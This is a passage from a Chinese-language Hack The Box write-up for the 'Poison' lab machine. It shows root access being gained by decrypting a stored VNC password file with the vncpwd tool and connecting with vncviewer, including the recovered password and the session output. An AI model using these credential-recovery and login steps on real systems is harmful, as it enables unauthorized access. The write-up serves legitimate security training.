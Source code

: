 ```

开了一个VNC服务。那么上面那个奇怪的文件有可能是VNC的加密密码

使用[这个脚本](https://github.com/jeroennijhof/vncpwd)破解上面的secret文件

```
┌──(root💀kali)-[~/htb/Poison/vncpwd]
└─# ./vncpwd /root/htb/Poison/secret       

Password: VNCP@$$!

```

使用下面命令登录```vncviewer localhost:5901```,输入明文密码

成功登录到root账号
```
┌──(root💀kali)-[~/htb/Poison]
└─# vncviewer localhost:5901                                                                                    1 ⨯
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Password: 
Authentication successful
Desktop name "root's X desktop (Poison:1)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Same machine: preferring raw encoding

```

后来发现，直接使用加密的```secret```文件也是可以登录的
```vncviewer -passwd /root/htb/Poison/secret 127.0.0.1::5901```

最后吐槽下，国内网络远程开vnc真是太慢了。。